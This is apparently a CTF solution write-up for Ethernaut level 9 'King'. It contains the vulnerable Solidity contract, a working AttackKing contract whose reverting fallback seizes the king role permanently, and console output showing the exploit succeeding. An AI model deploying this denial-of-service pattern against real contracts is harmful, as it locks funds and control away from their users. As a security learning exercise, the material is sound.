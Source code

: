 ## Ethernaut-solution

### 9. King 

ref: https://www.kingoftheether.com/thrones/kingoftheether/index.html

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  //we have three instance 
  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable { //external payable is to send ether, 
    //Its gonna hit receive cuz that's what's going to catch it there is no fallback here, so receive gonna catch that.

    require(msg.value >= prize || msg.sender == owner);
    //we're going to call this fallback function and we're going to make sure that the value we put into this contract 
    //is greater than its current prize because we have to satisfy this requirement condition and provided we do 

    king.transfer(msg.value); //kingになりすましてtransfer //we wanna them to stop here right now
    //will create a malicious contract 
    //it doesn't have a fallback function that can take the money of there's a problem in that fallback function in this contract 
    //this transaction that's calling this function here is going to fail 
    //this is going to break and that's exactly what we're trying to do here 
    //because we are trying to prevent anybody else from ever becoming king by paying money into this fallback funtion here
    //so we want to stop here, A maricious contract that's going to have a malicious fallback function
    //and when this transaction function gets called to send our malicious contract money, we're gonna blow up

    //we'll be able to you know pass the line here 
    //send money to the current king and then we wil become king and msg.sender is going to be the address of the attack king smart contrat 


    king = msg.sender;
    //As a result, the calling is not going to be able to this line here 
    //and as a result, we will always be king forever and ever 
    //that's what ended that ponzi game called king of ether which I showed you 


    prize = msg.value;
  }

  //the way that we're going to do this is we're going to create 

  function _king() public view returns (address payable) {
    return king;
  }
}
```

```solidity
/AttackKing.sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
// we could not fallback function and then transaction that executed this function would fail 
//and then this ponzi game would end forever because we would always be king and nobody would be able to pass king statement to get to this line to become the king 
contract AttackKing {
    constructor(address _king) public payable {//payable is exceed the prize limit //king had the prize limit of five and we wanted send six to 
  address(_king).call { value : msg.value }(""); //ここのやり方がnew way //we're putting these double quotes in here cuz inside of this call method when you're sending ether to someone,
  //you need to include these parenthese and these double quotes which basically states that i'm not calling a specific function 
  //it's gonna be the first four bytes of a function that's hashed so we're not calling anything specific we're just sending in general with you know remaining gas 
  //that's usually going to fall under a fallback function for the contract we're sending it to 
  //or it's gonna hit a receive function which is going to receive the ether fallback so these two locations this is going to hit when we send it 
   }
//we're going to specify the fallback function 
//king is gona be our address,the address of this attack king smart contract 
   //18:13
   fallback() external payable {//functionじゃなくてfallback 
       revert('You lose!');
   }
}
```

```
>await contract.prize()
o {negative: 0, words: Array(3), length: 2, red: null}length: 2negative: 0red: nullwords: Array(3)0: 130088961: 14901161length: 3[[Prototype]]: Array(0)[[Prototype]]: Object
```
```
>contract.address
'0xb88c9b391cC0564009b89AeDb53d83597212e07A'
```

//check the amount of wei of Ether (13008896)
```
>await contract.prize()
o {negative: 0, words: Array(3), length: 2, red: null}
length: 2
negative: 0
red: null
words: (3) [13008896, 14901161, empty]
[[Prototype]]: Object
```

//check the currently contract address of king 
```
>await contract._king()
'0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5'
```

//and then deploy the contract address '0xb88c9b391cC0564009b89AeDb53d83597212e07A send over 13_008_896 wei

//check the change address of king!
```
>await contract._king()
'0x56Be55B79aA365Afc81B8Ef43099e31Ec3a27094'
```

Most of Ethernauts levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: King of the Ether and King of the Ether Postmortem.

## references 

https://www.kingoftheether.com/thrones/kingoftheether/index.html
http://www.kingoftheether.com/postmortem.html















